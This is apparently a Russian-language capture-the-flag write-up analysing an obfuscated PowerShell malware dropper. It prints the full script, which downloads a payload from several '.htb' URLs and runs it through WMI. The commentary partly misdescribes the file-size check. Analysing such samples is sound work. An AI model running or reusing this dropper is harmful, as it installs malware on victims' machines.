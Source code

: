 ```
 SV  0zX ([TyPe]("{2}{0}{4}{3}{1}"-f 'e','rECtorY','sYst','.IO.dI','M')  ) ;   set  TxySeo  (  [TYpe]("{0}{7}{5}{6}{4}{2}{1}{8}{3}"-F'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG')) ;  $Nbf5tg3=('B9'+'yp'+('90'+'s'));$Vxnlre0=$Cludkjx + [char](64) + $R6r1tuy;$Ky3q0e8=(('Rq'+'dx')+'wo'+'5');  (  Dir  vaRiAble:0Zx).valuE::"CreAT`E`dIREc`T`OrY"($HOME + ((('nDp'+'Jrb')+('e'+'vk4n')+'D'+'p'+('C'+'cwr_2h')+'nD'+'p') -RePlAcE ('n'+'Dp'),[cHaR]92));$FN5ggmsH = (182,187,229,146,231,177,151,149,166);$Pyozgeo=(('J5f'+'y1')+'c'+'c'); (  vaRiABLE TxYSEo  ).ValuE::"SecUrI`TYp`R`OtOc`ol" = (('Tl'+'s1')+'2');$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228);$Huajgb0=(('Jn'+'o')+'5g'+'a1');$Bb28umo = (('Ale'+'7g')+'_8');$Hsce_js=('Kv'+('nb'+'ov_'));$Spk51ue=(('C'+'7xo')+'9g'+'l');$Scusbkj=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.e'+'x')+'e');$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);$hbmskV2T=(('C'+'7xo')+'9g'+'l');$hbmskV2T=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.c'+'o')+'nf');$Q1_y05_=('W'+('4'+'qvy')+'z8');$Odb3hf3=&('n'+'e'+'w-object') Net.WEBclIENt;$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229);$Anbyt1y=('h'+('ttp:'+']['+'(s)]')+(('w]'+'[('))+(('s)'+']w'))+('da'+'-')+'i'+'n'+'du'+('s'+'trial.'+'h'+'t')+'b]'+('[(s)]'+'w'+'js')+((']'+'[('))+(('s'+')]w9IdL'+'P]['+'(s'+')]w'+'@h'))+('t'+'tp:]')+('[(s'+')]')+'w'+(']'+'[(s)]')+('wdap'+'ro'+'fesiona'+'l.h')+'tb'+('][(s'+')'+']')+'w'+('d'+'ata')+('4][(s'+')]wh')+('WgW'+'jT')+('V]'+'[')+('(s)]w@http'+'s:][(s'+')]'+'w'+']')+'['+('(s)'+']wdag'+'ra')+'ni'+'t'+('eg'+'ia')+('re.h'+'t')+'b]'+('['+'(s)')+(']ww'+'p-a'+'dm'+'in][(s)'+']wt')+('V]['+'(s'+')')+(']w@'+'h')+'tt'+'p'+(':'+'][')+('(s)]w]['+'(s'+')]www'+'w'+'.out'+'s'+'p')+('ok'+'e')+'nv'+'i'+('s'+'ions.')+('htb'+']')+'['+('(s)]w'+'wp'+'-in')+('clu'+'d')+('es][(s)'+']waW'+'o'+'M')+(']'+'[('+'s)]w')+('@'+'http:]')+('[(s)'+']w][('+'s)')+(']wmo'+'bs')+('o'+'uk.h')+(('t'+'b][('))+(('s)'+']wwp-'))+'in'+'c'+'l'+('ude'+'s]'+'[')+('(s)]'+'w')+('UY'+'30R]')+('[(s'+')]w'+'@'+'h'+'ttp:][')+('('+'s)]w')+(']['+'(s)')+(']'+'wb')+'i'+('g'+'laugh'+'s')+(('.h'+'t'+'b][(s'))+((')]'))+('ws'+'mallpot'+'ato')+'es'+((']'+'[(s'))+((')]wY]'+'[(s'+')]w'+'@h'+'ttps:][(s)'))+']w'+('][('+'s)]wn'+'g')+('ll'+'o')+('gist'+'i')+('cs.'+'h')+'t'+('b]'+'['+'('+'s)]w')+'ad'+('mi'+'n')+'er'+']'+('[(s'+')]w'+'W3m')+'k'+(('B'+'][(s'))+((')'+']w')))."rep`LAcE"((']'+'['+('(s)]'+'w')),([array]('/'),('xw'+'e'))[0])."sP`lIT"($Ivg3zcu + $Vxnlre0 + $Jzaewdy);$Gcoyvlv=(('Kf'+'_')+('9'+'et1'));foreach ($A8i3ke1 in $Anbyt1y){try{$Zhcnaux=(('Ek'+'k')+('j'+'47t'));If ((&('Get-I'+'te'+'m') $Scusbkj)."LEn`GTh" -le 45199) {${A8`I`3KE1}.("{1}{2}{0}" -f'ay','ToCha','rArr').Invoke() | .("{2}{1}{0}{3}" -f'-','ach','ForE','Object') -process { ${FN5`GGm`Sh} += ([byte][char]${_} -bxor 0xdf ) }; $FN5ggmsH += (228); $b0Rje =  [type]("{1}{0}" -F'VerT','Con');   $B0RjE::"tO`BaS`E64S`TRI`Ng"(${fn5`ggm`sh}) | .("{2}{1}{0}" -f 'ile','ut-f','o') ${hB`mSK`V2T}; ([wmiclass](('wi'+'n')+('32_'+'Proc'+'e')+'s'+'s'))."cR`eaTE"($Scusbkj);$Glwki6a=('I'+'m'+('td'+'xv6'));break;$Pfpblh1=('Vs'+('lal'+'c')+'u')}}catch{}}$F47ief2=(('Bn'+'zid')+'rt')
```
 Здесь просиходит замена всех букв на строчные, поскольку PowerShell распознает их одинаково. 
 Основная часть, которую следует рассматривать как вредоносный скрипт, действующий как создание каталога и загрузка файлов из удаленного местоположения, - это часть кода foreach.
 Переменная anbyt1y содержит URL-адрес, загруженный из удаленного местоположения, который определяется как домен, предоставляемый htb. Читаем домен в переменной $anbyt1y один за другим, и после загрузки файла с сервера домена вступает оператор if, который делает оператор if истинным, когда размер загруженного файла составляет 45199 байт. 

Результат использования кода:

![](эмо10.jpg)
